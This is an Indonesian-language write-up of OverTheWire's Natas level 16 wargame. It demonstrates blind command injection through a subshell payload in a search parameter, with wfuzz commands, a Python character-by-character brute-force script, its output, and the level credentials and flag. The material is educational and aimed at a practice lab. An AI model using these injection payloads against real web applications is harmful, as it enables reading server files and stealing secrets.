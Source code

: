 ```yaml
---
layout: level
level: 16
previous: ./level 15.html
next: ./level 17.html
---
```


# soal
Username: natas16
URL:      http://natas16.natas.labs.overthewire.org

# solve 
- login with cred natas16:hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
- lalu saya melihat source codenya
  ![alt text](docs/images/image-50.png)
- jika kita lihat disini seperti tantangan yang sebelumnya
- namun ketika saya coba seperti sebelumnya itu tidak berhasil
  ![alt text](docs/images/image-51.png)
- lalu saya mencari tentang sub shell, dan mencoba ini
  ![alt text](docs/images/image-52.png)
  ```bash
  grep $(echo a) dictionary.txt 
  # maka dictionary akan tampil

  # dan secara teori fungsi "$(coommand)" adalah subshell
  # yang dimana jika saya lakukan cat $(file1.txt) file2.txt
  ```
- dan saya ingin mencoba mencari tau dengan grep di dalam grep
  - jadi ketika saya ```grep $(grep a /etc/natas_webpass/natas17) dictionary.txt```
  - saya berharap ketika saya grep a pada password natas17 dan jika memang ada filenya dan
    - dan hasil dari output subshell misal ```afdadfafas``` akan di lakukan ```grep -i fafadfafa dictionary.txt```
  - yang secara teori hasilnya akan kosong
- nah disini saya mencoba dulu apakah benar berhasil
  ![alt text](docs/images/image-53.png)
  ![alt text](docs/images/image-54.png)
  ```bash
  $(grep a /etc/natas_webpass/natas17) # showing     ==> false
  $(grep b /etc/natas_webpass/natas17) # not showing ==> true
  ```
- disini jika kita coba ketika grep a tidak ada asumsi paswword tidak menggunakan a dan karena tidak ada ketika di grep yang kedua dia akan melakukan grep a
- sedangkan ketika coba b tidak muncul yang berarti grep yang pertama berhasil, lalu gagal di kedua makanya kosong
- dan sebnernya kalo di cli kalo run kaya gitu ada error jika teksnya itu tidak ada di grep yang pertama
  - solusinya tambahkan string di akhir
    ```bash
    $(grep a /etc/natas_webpass/natas17)a
    ```
- hanya saja masalahnya kita tidak tahu huruf itu adalah huruf pertama atau terakhir
  - dan saya menemukan solusi kita bisa gunakan regex
    ```bash
    $(grep ^b /etc/natas_webpass/natas17)a
    ```
- lalu saya mencoba menggunakan wfuzz untuk menbrute force 1 kata per kata
  ```bash
  wfuzz -H "Authorization: Basic bmF0YXMxNjpoUGtqS1l2aUxRY3RFVzMzUW11WEw2ZURWZk1XNHNHbw==" -w chars -u 'natas16.natas.labs.overthewire.org/?needle=$(grep ^FUZZ /etc/natas_webpass/natas17)a&submit=Search'
  # output all

  | grep -v 24202 # grep output
  | grep -v 24202 | tr -d "L" # hapus karakter L karena tiba tiba ada karakter L
  | grep -v 24202 | tr -d "L" | tr -d "\n" # hapus nweline
  
  $(grep ^FUZZ /etc/natas_webpass/natas17)
  # 000000031:   200        28      79 W       1105 Ch     "E"
  $(grep ^EFUZZ /etc/natas_webpass/natas17)
  # 000000017:   200        28      79 W       1105 Ch     "q"
  # dan seterusnya
  # EqjHJbo7LF
  # EqjHJbo7LFNb8vw
  # EqjHJbo7LFNb8vwhHb9s75
  # EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC

  # dan ternyata sudah uruf 30+ yang berarti sudah ketemu passwordnya

  wfuzz -H "Authorization: Basic bmF0YXMxNjpoUGtqS1l2aUxRY3RFVzMzUW11WEw2ZURWZk1XNHNHbw==" -w chars -u 'natas16.natas.labs.overthewire.org/?needle=$(grep ^EqjHJbo7LFNb8vwhHb9s75hokh5TF0OFUZZ /etc/natas_webpass/natas17)a&submit=Search' | grep -v 24202
  # EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
  ```

## solve with script python
- script
  ```py
  import requests
  from string import ascii_letters, digits

  url = "http://natas16.natas.labs.overthewire.org"
  username = "natas16"
  password = "hPkjKYviLQctEW33QmuXL6eDVfMW4sGo"

  def brute_force_chars():
      charset = ascii_letters + digits
      found_password = ""

      while True:
          for char in charset:
              test_password = found_password + char
              payload = f"$(grep ^{test_password} /etc/natas_webpass/natas17)a"

              response = requests.get(
                  url,
                  auth=(username, password),
                  params={"needle": payload, "submit": "Search"}
              )

              if "African" not in response.text:
                  found_password += char
                  print(f"[+] Password so far: {found_password}")
                  break
          else:
              print("[+] Password found:", found_password)
              return

  if __name__ == "__main__":
      brute_force_chars()
  ```
- run
  ```bash
  python3 overthewire/natas/solve/level16.py 
  [+] Password so far: E
  [+] Password so far: Eq
  [+] Password so far: Eqj
  [+] Password so far: EqjH
  ......
  [+] Password so far: EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
  ```

## subshell
```bash
cat pass
ariafatah

grep -i $(grep a pass) dictionary # not show because in pass have char a
grep -i $(grep b pass) dictionary # not showing because not have b in chat but stuck loading
^C

grep -i $(grep b pass)a dictionary | head # solusinya menambahkan string lagi di akhir
# African
# Africans

# fungsi string akhir itu biar ketika kita tidak menemukan huruf b pada pass dan ketika dia melakukan pengecekan
# kosong dari dictionary maka seharusnya akan menambahkan huruf a gitu
# jadi nanti hasilnya bakal grep -i a dictionary
# dan bukan grep -i  dictionary

# ya intinya fungsinya subshell akan dijalankan terlebih dahulu
# setelah itu hasil dari subshell akan dibaca oleh cat lalu, akan melanjutkan comman selanjutnya

grep -i $(grep ^ariafatah pass)a dictionary | head # true
grep -i $(grep ^aria pass)a dictionary | head # true
grep -i $(grep ^fatah pass)a dictionary | head # false
# African
# Africans

# sebenerya ada tamabahn option biar lebih spesifik untuk regexnya
grep -E ^a.*$

grep -i $(grep -E ^aria.*$  pass)a dictionary | head
grep -i $(grep -E ^ariafatah.*$  pass)a dictionary | head
grep -i $(grep -E ^ariafataha.*$  pass)a dictionary | head
# African
# Africans

## namun hasilnya akan tetap sama aja sih sebenernya
```

# flag
EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC
